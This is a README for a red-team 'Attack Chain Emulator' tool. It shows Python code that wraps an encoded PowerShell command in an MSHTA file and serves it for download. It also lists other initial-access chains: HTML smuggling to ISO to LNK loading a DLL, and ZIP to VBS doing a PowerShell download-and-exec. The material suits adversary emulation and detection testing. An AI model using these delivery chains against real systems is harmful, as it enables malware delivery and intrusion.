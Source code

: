 # ACE Fire Fist 

Attack Chain Emulator. Like pwntools, but for initial execution. 


## Example (recipe 3)

Source:
```py
# MSHTA -> Powershell:MessageBox
def recipe_3():
    ps1msgbox = makePowershellMessageBox()
    ps1msgbox = makePowershellEncodedCommand(ps1msgbox)

    cmd = AceStr("powershell.exe -EncodedCommand {}".format(ps1msgbox))
    mshta = makeMshtaJscriptExec(cmd)

    containerServe: AceRoute = AceRoute('/test.hta', mshta, download=True, downloadName='test.hta')
    serve(containerServe)
```

Execute:
```sh
$ rm out/*; python3 ace.py --recipe 3
INFO:basic_logger:--[ 1: makePowershellMessageBox() -> 1
INFO:basic_logger:--[ 2: makePowershellEncodedCommand(1) -> 2
INFO:basic_logger:--[ 3: makeMshtaJscriptExec(2) -> 3

Routes:
  /                      Recipe overview
  /out/<filename>        out/ files
  /static/<filename>     static/ files
  /test.hta              (3)    Download: True test.hta

 * Serving Flask app 'web' (lazy loading)
```

Files:
```
$ ls -1 out/
out_1_makePowershellMessageBox.txt
out_2_makePowershellEncodedCommand.txt
out_3_makeMshtaJscriptExec.txt
```

Video: 
```
<tbd>
```

## Directories

* `out/`: generated artefacts
* `static/`: files served in web server under `static/`
* `payload/`: files used as payloads (not served via web)


## Recipes

### Recipe 1

HTML Smuggling -> ISO -> ( LNK -> Powershell:Load&Exec <- DLL )

```
python3 ace.py --recipe 1
```

Entry URL: http://localhost:5000/test


### Recipe 2

ZIP -> VBS -> Powershell:Download+Exec <- Powershell-Messagebox

```
python3 ace.py --recipe 2
```

Entry URL: http://localhost:5000/test.zip


### Recipe 3

MSHTA -> Powershell:MessageBox

```
python3 ace.py --recipe 3
```

Entry URL: http://localhost:5000/test.hta


## Notes

```
rm out/*; ./ace.py ...
```


## Libraries

* libs/pylnk3: pylnk3-dev, as it has an important bugfix. No deps. 


